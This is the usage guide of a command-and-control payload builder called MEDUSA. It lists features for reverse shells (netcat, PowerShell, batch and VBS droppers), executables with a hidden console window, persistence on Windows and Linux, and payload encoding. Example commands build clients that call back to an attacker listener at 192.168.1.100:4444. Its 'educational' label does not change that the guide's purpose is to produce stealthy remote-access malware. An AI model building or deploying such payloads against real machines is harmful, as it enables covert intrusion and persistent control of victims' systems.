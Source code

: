 # MEDUSA C2 Builder - Usage Guide

## Overview
The MEDUSA C2 Builder is a comprehensive payload generation tool that creates various types of reverse shell payloads and executables for educational cybersecurity purposes.

## Features

### 🔨 Executable Builder
- **Python to EXE**: Convert Python clients to standalone executables using PyInstaller
- **Console Hiding**: Generate executables that run without showing a console window
- **Custom Icons**: Add custom icons to executables
- **Persistence**: Include persistence mechanisms for Windows and Linux
- **UPX Compression**: Automatic UPX compression if available

### 🐚 Reverse Shell Generators
- **Netcat Commands**: Windows and Linux netcat reverse shells
- **PowerShell Scripts**: Advanced PowerShell reverse shells with encoding options
- **Batch Droppers**: Windows batch file droppers
- **VBS Droppers**: Visual Basic Script droppers

## Usage Examples

### 1. Generate Python Client and Build EXE
```bash
# Basic Python client
python builder.py --type python --ip 192.168.1.100 --port 4444 --output myclient

# Build executable with hidden console
python builder.py --type python --ip 192.168.1.100 --port 4444 --output myclient --build-exe --hide-console

# Add persistence and custom icon
python builder.py --type python --ip 192.168.1.100 --port 4444 --output myclient --build-exe --hide-console --persistence --icon myicon.ico
```

### 2. Generate Netcat Commands
```bash
# Generate netcat reverse shell commands
python builder.py --type netcat --ip 192.168.1.100 --port 4444
```

### 3. Generate PowerShell Payloads
```bash
# Basic PowerShell script
python builder.py --type powershell --ip 192.168.1.100 --port 4444 --output psrevshell

# Encoded PowerShell payload
python builder.py --type powershell --ip 192.168.1.100 --port 4444 --output psrevshell --encode
```

